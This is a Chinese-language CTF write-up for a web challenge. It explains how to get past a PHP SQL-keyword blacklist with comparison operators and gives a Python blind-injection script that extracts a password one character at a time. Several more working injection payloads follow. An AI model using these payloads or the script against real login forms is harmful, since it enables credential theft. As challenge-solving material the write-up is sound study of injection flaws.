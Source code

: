 ### web300-2  writeUp 

-----------------------------

此题目很有意思,关键是是sql注入,最后的命令执行,很简单送分题

主要sql注入的过滤函数:

```php
function sql_clean($str){
		if(is_array($str)){
			echo "<script> alert('not array!!@_@');parent.location.href='index.php'; </script>";exit;
		}
		$filter = "/ |\*|#|,|union|like|regexp|for|and|or|file|--|\||`|&|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."|".urldecode('%a0')."/i";  
		
        //由于在mysql中认为 %a0 也是空格,所以这里也需要过滤, 
		//在这里做了修改,添加 %a0

		if(preg_match($filter,$str)){
			echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
		}else if(strrpos($str,urldecode("%00"))){
			echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
		}
		return $this->str=$str;
	}
```
感觉啥都过滤了啊,怎么玩?:


但是仔细想想,我们好像还有操作符啊:
```
!,!=,=,+,-,^,%,>,<,~
```
我们是否可以通过这些操作符构造出来可以的注入判断语句呢?

看图:
![1.png](./images/1.png)

为啥会这样呢?

先看第一个语句:
```sql
select user from mysql.user where user=''=0
```
因为  where user='' 是返回0,然后0=0就会返回1,所有返回了所有的用户
第二条语句同样的道理.
所以我们我们就用`!=`号来构造判断条件,从数据库中读取数据
```
select  user  from mysql.user where user=''!=(mid((user)from(-1))='t')
```
如果 (mid((user)from(-1))='t') 返回的是0,那么整个判断就会返回false,如果是1,我们就查到数据了.

所以我们可以POST提交:
```
uname='!=(mid((passwd)from(-1))='e')='1&passwd=1
```
这样一位一位猜出来passwd
python代码实现:
```python
#!/usr/bin/python
# -*-  coding:utf-8 -*- 
import requests 
url = "http://127.0.0.1/web200/login.php"

randstr = "0123456789abcdef"
remark=""
proxy = {"http":"127.0.0.1:8080"}
for j in range(1,33):
    for i in randstr:
        passwd = i+remark
        uname = "'!=(mid((passwd)from(-{j}))='{passwd}')='1".format(j=str(j),passwd=passwd)
        data = {"uname":uname,"passwd":"ddd"}
        # print uname
        res = requests.post(url,data)
        if "password error!!" in res.text:
            remark = passwd
            print remark
            break
```
下面说几个别的可用的payload:
原理和上面差不多:
```
select  user  from mysql.user where user=''%( mid((user)from(-1))='t')='1';
-> uname='%(mid((passwd)from(-1))='e')='1&passwd=1
```

```
select  user  from mysql.user where user=''^!( mid((user)from(-1))='t')='1' ;
-> uname='^!(mid((passwd)from(-1))='e')='1&passwd=1
```

```
select  user  from mysql.user where user=''+!( mid((user)from(-1))='t')='1';
->  uname='%2b!(mid((passwd)from(-1))='e')='1&passwd=1
注意加号用url编码 
```

```
select  user  from mysql.user where user=''-!( mid((user)from(-1))='t')='1';
-> uname='%2d!(mid((passwd)from(-1))='e')='1&passwd=1
```

```
select * from admin where uname=''<(mid((passwd)from(-1))='5')='1';
-> uname='<(mid((passwd)from(-1))='5')='1&passwd=1
```

看下面这个sql语句,理解一下:

```sql
select user from mysql.user  where user=~'18446744073709551615';
```